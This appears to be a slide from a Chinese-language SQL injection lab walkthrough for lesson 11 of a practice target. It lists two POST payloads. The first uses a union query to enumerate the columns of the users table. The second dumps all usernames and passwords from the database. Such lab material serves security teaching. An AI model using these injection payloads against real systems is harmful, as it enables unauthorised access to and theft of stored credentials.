

# Less-11_02
以下均为POST内容：
8. uname=a‘ union select 1,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273)  # &passwd=a&submit=Submit 通过users表获得里面的列值：id,username,password
9. uname=a‘ union select 1, group_concat(concat_ws(’~‘,username,password)) from security.users  # &passwd=a&submit=Submit 此时就可以得到里面所有的数据。